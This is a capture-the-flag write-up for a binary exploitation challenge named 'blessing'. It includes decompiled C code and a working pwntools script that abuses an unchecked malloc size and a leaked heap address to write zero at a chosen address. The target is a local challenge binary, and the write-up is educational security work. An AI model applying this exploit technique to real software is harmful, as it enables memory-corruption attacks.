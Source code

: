 * Description

In the realm of Eldoria, where warrior roam, the Dragon's Heart they seek, from bytes to byte's
home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.

* Solution
Run the program, *we'll get a leak of address*. and let's input the length of song, then give the
content of it. 
[[file:2025-04-18_15-15.png]]

Keep the leak of address in mind, let's load it to disassembler:
#+begin_src c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  unsigned __int64 i; // [rsp+10h] [rbp-20h]
  _QWORD *v6; // [rsp+18h] [rbp-18h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup();
  banner();
  size = 0;
  v6 = malloc(0x30000u);
  *v6 = 1;
  printstr(
    "In the ancient realm of Eldoria, a roaming bard grants you good luck and offers you a gift!\n"
    "\n"
    "Please accept this: ");
  printf("%p", v6);
  sleep(1u);
  for ( i = 0; i <= 0xD; ++i )
  {
    printf("\b \b");
    usleep(60000u);
  }
  puts("\n");
  printf(
    "%s[%sBard%s]: Now, I want something in return...\n\nHow about a song?\n\nGive me the song's length: ",
    "\x1B[1;34m",
    "\x1B[1;32m",
    "\x1B[1;34m");
  __isoc99_scanf("%lu", &size);
  buf = malloc(size);
  printf("\n%s[%sBard%s]: Excellent! Now tell me the song: ", "\x1B[1;34m", "\x1B[1;32m", "\x1B[1;34m");
  read(0, buf, size);
  *(_QWORD *)((char *)buf + size - 1) = 0;
  write(1, buf, size);
  if ( *v6 )
    printf("\n%s[%sBard%s]: Your song was not as good as expected...\n\n", "\x1B[1;31m", "\x1B[1;32m", "\x1B[1;31m");
  else
    read_flag();
  return 0;
}
#+end_src

Obviously, the program do following thing:
1. ~malloc~ a large chunk memory, then initialize =QWORD= byte with 0.
2. leak that chunk memory address to us.
3. use ~scanf~ to get the size of song.
4. ~malloc~ with the =user control= size.
5. ~read~ data into that memory return by above ~malloc~, without arguments check.
6. initialize the (memory_addr + user control size - 1) = 0.
7. check first ~malloc~ memory's initialzation is still work.
   
Our goal is to overwrite the memory of ~v6~ with 0. according to the behavior of the program, there
only one place that would be leveraged:
#+begin_src c
*(_QWORD *)((char *)buf + size - 1) = 0;
#+end_src
the ~size~ variable's value can be controlled by us, and ~buf~ is return value within that ~size~. And
there is no checking for ~buf~'s value.

So, we only need to make ~buf~'s value equal to zero, and ~size - 1~ equal to the leak address.

#+begin_src python :results output
#!/usr/bin/env python3

from pwn import *

io = process('./blessing')

_ = io.recvuntil(b'accept this: ')
leak_addr = int(io.recvline().split(b'\x08\x20\x08')[0], 16)

print(f'leak address: {hex(leak_addr)}, {leak_addr}')

_ = io.sendlineafter(b'length: ', str(leak_addr + 1).encode())
io.sendline() # for content
_ = io.recvuntil(b'tell me the song: ')
print(io.readline()[:-1].decode())
#+end_src
